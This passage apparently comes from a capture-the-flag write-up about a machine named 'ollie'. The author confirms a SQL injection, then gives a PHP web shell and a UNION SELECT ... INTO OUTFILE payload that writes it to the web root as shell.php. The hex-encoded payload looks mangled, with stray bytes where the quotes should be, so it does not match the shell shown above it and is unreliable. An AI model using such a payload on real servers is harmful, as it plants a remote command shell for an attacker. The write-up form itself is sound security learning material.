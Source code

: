 ![Action](/assets/img/posts/ollie/actions.png)

And in this section, I insert the payload of SQLi:

![SQLi](/assets/img/posts/ollie/check_vuln.png)

It works because I see in the response the version of DB is **8.0.28-0ubuntu0.20.04.3** and I have also the user **phpiam_ollie@localhost**.

The vulnerability is confirmed. I try to insert some files using the SQLi to create a Web Shell using the following payload:
```
<?php system($_GET["cmd"]); ?>
```
and encoded in hex became:
```
" union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/shell.php' -- -
```
